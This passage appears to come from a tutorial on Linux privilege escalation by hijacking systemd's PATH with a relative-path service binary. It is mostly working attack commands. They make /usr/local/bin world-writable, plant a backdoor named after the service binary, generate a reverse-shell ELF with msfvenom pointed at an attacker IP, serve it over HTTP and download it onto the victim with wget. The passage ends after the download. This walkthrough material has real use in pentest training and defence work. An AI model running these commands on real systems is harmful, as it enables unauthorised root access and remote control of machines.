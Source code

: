 ```shell
systemctl show-environment
```

We'll then verify if we have write permissions in any of the previous directories before the `/usr/bin` directory:

```shell
❯ systemctl show-environment | grep PATH | cut -d '=' -f 2 | tr ':' '\n'
/usr/local/sbin
/usr/local/bin
/usr/sbin
/usr/bin
/sbin
/bin

systemctl show-environment | grep PATH | cut -d '=' -f 2 | tr ':' '\n' | xargs ls -dl
```

Here is how this works:

{{< image src="/images/posts/systemd-path-image.png" caption="Systemd PATH Image" src_s="/images/posts/systemd-path-image.png" src_l="/images/posts/systemd-path-image.png" >}}

We'll append write permissions:

```shell
sudo chmod o+w /usr/local/bin
```

If we find that we can **write** in any of the folders of the path we may be able to **escalate privileges**. we need to search for **relative paths being used on service configurations** files like:

```shell
sudo vim /etc/systemd/system/name.service

ExecStart=rsync
```

Then, we'll create an **executable** with the **same name as the relative path binary** inside the systemd PATH folder we can write, and when the service is asked to execute the vulnerable action (**Start**, **Stop**, **Reload**), the **backdoor will be executed**.

Generate a reverse shell file in our adversary host:

```shell
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=53 -f elf -o rev_shell
msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=10.10.10.15 LPORT=53 -f elf -o rev_shell
```

In our adversary host, we'll set up an HTTP server:

```shell
sudo python3 -m http.server 80
```

On the victim host, we download the payload:

```shell
wget 10.10.10.15/rev_shell -O /dev/shm/rev_shell
```

